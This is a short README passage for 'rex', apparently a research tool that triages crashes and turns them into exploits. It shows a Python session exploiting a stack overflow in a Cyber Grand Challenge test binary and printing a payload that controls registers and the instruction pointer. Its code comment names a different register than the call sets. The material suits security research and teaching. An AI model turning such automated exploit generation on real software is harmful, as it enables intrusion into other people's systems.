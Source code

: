 ### Rex

At the moment rex offers two main features, crash triaging and exploitation for certain kinds of crashes.

In the example below we take a crashing input for `0b32aa01_01` discovered by AFL. The vulnerability is a simple stack smashing attack.

Exploit objects can take an exploitable crashing input and will attempt to turn it into an exploit which can set
set every register and leak data from an arbitrary address.

```
>>> crash = rex.Crash("../binaries/cgc_scored_event_1/cgc/0b32aa01_01", "\x05\x00\xff\xff\x80\xff\xff\xff\x80\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xff\xff\x80\xf1\xf1\xf1\xeb\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\xf1\x00\xde\x7f\xff\x80\xff\xff\xff\x80\x0f\xff\xff\xff~\xf3\xff\xff\xff\xff\x7f\xff\xff\x80\xff\xff\xfe\xff\t\xfe\xfe\xfe\xfe\xfe\nWelc\xfeme to(Palindrome Fiwder\n\n\xff\xff\xff\xff\x80\xff\xff\xe8\x80\x0f\xff\xff\xff\x7f#\n")
>>> crash.exploitable()
True
>>> exploit = rex.Exploit(crash)
>>> exploit.initialize()
>>> # create an input which populates eax with 0x41414141 and crashes with eip at 0x58585858
>>> exploit.set_regs("ebx", 0x41414141, final_ip=0x58585858) 
'\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xff\x00\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x8e\x81\x04\x08\x00\x00\x00\x00\x84\xc5EIAAAAXXXX\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
```
